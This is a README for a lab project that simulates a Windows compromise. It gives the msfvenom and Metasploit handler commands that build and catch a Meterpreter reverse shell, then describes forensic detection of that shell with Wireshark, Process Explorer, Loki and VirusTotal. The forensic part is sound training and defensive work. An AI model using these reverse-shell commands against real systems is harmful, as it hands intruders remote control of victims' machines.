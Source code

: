 # Data-Compromise-Assessment
This project demonstrates a simulated cyberattack covering:  Payload delivery (initial intrusion)  Reverse shell (C2 communication)  Forensic analysis (process &amp; network behavior)  Includes tools and techniques used to detect and analyze real-world breaches. 

Objective:
To simulate and analyze a data compromise using ethical hacking techniques, forensic tools, and threat intelligence to detect and assess malicious activity on a Windows machine.

Step 1: Create the Payload
Open terminal and run:
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST= Host Machine IP LPORT= Host Machine Port -f exe -o testPayload.exe

Step 2: Start Metasploit Handler
Open another terminal and run:
msfconsole

Inside Metasploit:
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost (Host Machine IP)
set lport (Host Machine Port)
exploit

Step 3: Run Payload on Windows
Copy and run testPayload.exe on the target Windows machine.
You should get a Meterpreter session in Kali.

Step 4: Run Basic Commands
From the Meterpreter shell:
whoami
ipconfig
help
exit

Step 5: Analyze the Attack

1. Open Wireshark:
   - Capture traffic on the network
   - Look for reverse shell traffic to LPORT

2. On Windows, open Process Explorer:
   - Look for suspicious processes (testPayload.exe)

3. Use loki scanner:
   - Scan the system for signs of compromise

4. Go to https://virustotal.com
   - Upload Pyload.exe file or paste the hash
   - Check if it's detected as malicious

This simulation shows:
- Initial intrusion (payload)
- Command and control (reverse shell)
- Forensic footprint (network + process analysis)
